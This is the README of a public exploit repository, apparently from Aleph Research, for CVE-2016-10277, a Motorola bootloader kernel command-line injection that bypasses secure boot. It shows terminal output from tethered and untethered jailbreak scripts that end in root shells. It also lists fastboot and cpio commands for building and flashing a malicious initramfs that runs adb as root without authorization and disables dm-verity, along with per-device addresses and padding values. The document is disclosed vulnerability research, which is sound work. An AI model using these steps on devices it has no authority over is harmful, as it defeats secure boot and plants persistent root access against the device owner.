 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## First stage exploit: Tethered jailbreak ##

This exploit gains an ephemeral unrestricted root access on the device.
For example, on `cedric` (some messages were removed for readability):

```terminal
$ cd ./tethered/cedric
$ ./initroot-tethered.sh
Welcome to initroot-cedric-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0xA2100000,1588596
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>
OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (34319 KB)...
OKAY [  1.098s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.101s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:shell:s0
$ adb shell
cedric:/ # 

```

## Second stage exploit: Untethered jailbreak ##

This exploit gains a persistent root access on the device.
For example, on `athene` (some messages were removed for readabilitiy):

```terminal
$ cd ./untethered/athene

./initroot-untethered.sh 
Welcome to initroot-athene-untethered
Welcome to initroot-athene-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x92000000,2505052
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (35214 KB)...
OKAY [  1.131s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.138s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
padC-initroot: 1 file pushed. 11.1 MB/s (22937600 bytes in 1.963s)
44800+0 records in
44800+0 records out
22937600 bytes transferred in 3.017 secs (7602784 bytes/sec)
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a rdinit= root=/dev/mmcblk0p41
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
rebooting...

finished. total time: 0.815s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
athene:/ # 

```

## Producing your own malicious initramfs archive ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ dd if=/dev/zero of=../pad ibs=1 count=<PAD_SIZE>
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PAD_SIZE>,<initroot.cpio.gz size-PAD_SIZE>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Creating an Untethered exploit for other Moto devices ##

Read our [blog post](https://alephsecurity.com/2017/08/30/untethered-initroot/#persisting-the-payload)


## Verified Devices ##
| Device           | Codename | `SCRATCH_ADDR` | `PADDING`   | committed `initrams` | Unused Partition
|------------------|----------|----------------|-------------|----------------------|---------
| Nexus 6  | `shamu` | `0x11000000`   | `0x0`         | AOSP `userdebug` | `mmcblk0p11`
| Moto G5 (XT1676) | `cedric` | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc | `mmcblk0p41`
| Moto G4 (XT1622) | `athene` | `0x90000000`   | `0x2000000` | "" | `mmcblk0p48`


## Community Reported ##
| Device           | Codename | `SCRATCH_ADDR` | Reporter | Description
|------------------|--------------|--------------|--------------|-----------
| Moto G5 Plus  | `potter` |  `0xA0100000` | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play (XT1607)  | `harpia` | `0x90000000` | [m-mullins](https://github.com/m-mullins)   | Full Exploitation of  Amazon XT1607. [[proof](https://github.com/m-mullins/InitRoot_Harpia)]
| Moto G4 Play (XT1609)  | `harpia` | `0x90000000` | [@utoprime](https://twitter.com/utoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G4 (XT1625) | `athene` | `0x90000000` | [@EWorcel](https://twitter.com/EWorcel) | Injected initrd that caused boot loops. [[proof](https://twitter.com/roeehay/status/868877672016957440)]  
| Moto G3 | `osprey` | `0x90000000` | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd that caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]
| Moto G2 (XT1072) | `thea` | `0x11000000`  | [@TheElix](https://disqus.com/by/TheElix/) | Injected initrd caused boot loops. [[proof](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740)]
| Moto E (XT830C) | `condor_cdma` | `0x0E000000`  | [fetcher](https://disqus.com/by/disqus_U4zRE0u275/) | Full Exploitation of XT830C locked to Tracfone/Verizon with a 32MB padding [[proof](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648)]
| Other | - | - | [@jcase](https://twitter.com/jcase) | [[proof](https://twitter.com/jcase/status/868930263782313984)]

## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Video Demo ##

[![Video Demo of CVE-2016-10277](http://img.youtube.com/vi/dijRMpv4ktM/0.jpg)](https://www.youtube.com/watch?v=dijRMpv4ktM)

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)
4. [Untethered initroot (USENIX WOOT '17)](https://alephsecurity.com/2017/08/30/untethered-initroot)
5. [USENIX WOOT '17 paper](https://www.usenix.org/conference/woot17/workshop-program/presentation/hay)



